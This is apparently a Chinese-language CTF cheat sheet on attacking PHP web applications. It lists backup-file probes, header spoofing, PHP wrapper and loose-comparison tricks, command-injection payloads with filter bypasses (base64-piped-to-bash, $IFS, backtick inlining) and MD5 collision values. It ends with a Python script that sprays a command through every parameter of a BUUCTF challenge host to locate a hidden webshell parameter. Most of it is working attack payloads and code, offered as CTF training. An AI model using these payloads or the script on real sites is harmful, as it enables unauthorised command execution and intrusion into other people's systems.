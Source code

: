 # PHP

* ## 基础

Robots.txt 查看robots协议规定的网站信息（对网站本身并无实质性影响）

备份源码泄露：

```
www.zip
www.tar.gz
index.php.bak
```

弱口令爆破：burp抓包后更改爆破点，加载字典进行爆破

X-Forward-For / Referer 伪造 --&gt; X-Forward-For 为最初发起请求的客户端的ip地址，Referer 为当前请求页面的来源页面地址

php弱类型对比（==），不涉及数据转换 --&gt; 0e123==0e456 （典型：md5碰撞）

php伪协议：

```
php://input  //通过post方法将原数据远程上传至服务器
php://filter //通过一些过滤将原数据进行一些操作后下载
?file=php://filter/read=convert.base64-encode/resource=flag.php
        //将flag.php内部源码进行base64编码后给file赋值
```

* ### 命令注入

HTML注入：

```
127.0.0.1;var_dump(scandir('/'));   //显示根目录下文件列表
127.0.0.1;file_get_contents(filename);  //获取文件内容
```

* #### Bypass

空格绕过 --&gt; 采用&lt;&gt;、/\*\*/、采用特殊变量$IFS

利用反斜杠

```
cat /flag ==> c\at /fl\ag
```

base64编码和解码

```
echo Y2F0IC9mbGFn|base64 -d|bash
```

过滤斜杠 --&gt;利用环境变量进行字符串截取

利用单引号绕过

拼接：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

编码：

```
/?ip=1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

内联：

    /?ip=127.0.0.1;cat$IFS$9`ls`

* #### md5碰撞

md5弱碰撞

```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
```

md5强碰撞（做md5后值相同的字符串对）

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

特殊md5 \($a==md5\($a\)\)

```
0e215962017
```

* #### 备份源码泄露

脚本扫描是否有shell

```
import os
import requests
import re
import time

def read_file(path, command):  #遍历文件找出所有可用的参数
    with open(path,encoding="utf-8") as file:
        f = file.read()
    params = {}
    pattern = re.compile("(?<=\$_GET\[').*?(?='\])")  #match get
    for name in pattern.findall( f ):
        params[name] = command

    data = {}
    pattern = re.compile("(?<=\$_POST\[').*?(?='\])")  #match get
    for name in pattern.findall( f ):
        data[name] = command
    return params, data

def url_explosion(url, path, command):   #确定有效的php文件
    params, data = read_file(path,command)
    try:
        print("Reading " + url + "\r", end='', flush = True)
        r = requests.session().post(url, data = data, params = params)
        if r.text.find("haha") != -1 :
            print(url,"\n")
            find_params(url, params, data)         

    except:
        print("\n" + url,"异常")

def find_params(url, params, data):   #确定最终的有效参数
    try:
        for pa in params.keys():
            temp = {pa:params[pa]}
            r = requests.session().post(url, params = temp)
            if r.text.find("haha") != -1 :
                print(pa)
                os.system("pause")

    except:
        print("error!\n")
    try:
        for da in data.items():
            temp = {da:data[da]}
            r = requests.session().post(url, data = temp)
            if r.text.find("haha") != -1 :
                print(da) 
                os.system("pause")
    except:
        print("error!\n")


rootdir = "C:\\CTF\\buuctf\\高明的黑客\\src"  #php文件存放地址
list = os.listdir(rootdir)
for i in range(0, len(list)):
    path = os.path.join(rootdir ,list[i])
    name = list[i].split('-2')[0]   #获取文件名
    url = "http://1e688c83-cf4c-4675-b569-6e227ff69914.node3.buuoj.cn/" + name
    url_explosion(url,path,"echo haha")
```



